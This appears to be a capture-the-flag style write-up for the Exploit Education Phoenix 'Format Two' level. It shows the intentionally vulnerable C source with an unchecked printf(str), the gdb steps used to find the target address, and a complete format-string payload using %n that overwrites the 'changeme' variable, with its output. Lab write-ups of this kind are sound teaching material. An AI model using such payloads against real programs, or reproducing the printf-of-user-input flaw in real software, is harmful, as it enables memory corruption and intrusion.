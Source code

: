 ```yaml
---
title: "Phoenix - Format Two"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "The goal of this level is to use the format string vulnerability to write to a memory address **changeme**..."
categories:
  - Binary Exploitation
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

The goal of this level is to use the format string vulnerability to write to a memory address **changeme**.

```
$ gdb -q /opt/phoenix/amd64/format-two
Reading symbols from /opt/phoenix/amd64/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+115>:	call   0x40066d <bounce>
   0x0000000000400705 <+120>:	mov    eax,DWORD PTR [rip+0x2003e5]        # 0x600af0 <changeme>
   0x000000000040070b <+126>:	test   eax,eax
.....
```

Here we can see the address we want to write to is **0x600af0** which is not exploitable because it has bad characters that will terminate the input and ignore everything after it :(

Bad characters:

- \x00	(Null)
- \x09	(Tab)
- \x0a	(New line)
- \x0d	(Carriage return)
- \x20	(Space)

So we switch gears to the 32bit binary.

```
$ gdb -q /opt/phoenix/i486/format-two 
Reading symbols from /opt/phoenix/i486/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0804859b <+111>:	call   0x8048515 <bounce>
   0x080485a0 <+116>:	add    esp,0x10
   0x080485a3 <+119>:	mov    eax,ds:0x8049868
   0x080485a8 <+124>:	test   eax,eax
....
```

Now the address of **changeme** is **0x8049868**, good.

First we should know where our input is stored in the stack.

```
$ /opt/phoenix/i486/format-two "AAAA%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd89b 100 0 f7f84b67 ffffd6f0 ffffd6d8 80485a0 ffffd5d0 ffffd89b 100 3e8 41414141 25207825 78252078 20782520 25207825Better luck next time!
```

We can see our input **41414141** which is **AAAA** at offset 12.

To write to an address we user the **%n** which writes the number of characters so far to a memory address.

So we can replace **AAAA** with the address of **changeme** and replace the last **%x** with **%n** to write to that address.

```
$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %x \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd8a5 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8a5 100 3e8 8049868 
Better luck next time!
```

Notice we write the address in little endian.

We could also use the direct parameter access format using **%12$x** instead of all these **%x** but it doesn't work all the time (and apparently doesn't work here).

# Solution:

```
$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd8a5 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8a5 100 3e8  
Well done, the 'changeme' variable has been changed correctly!
```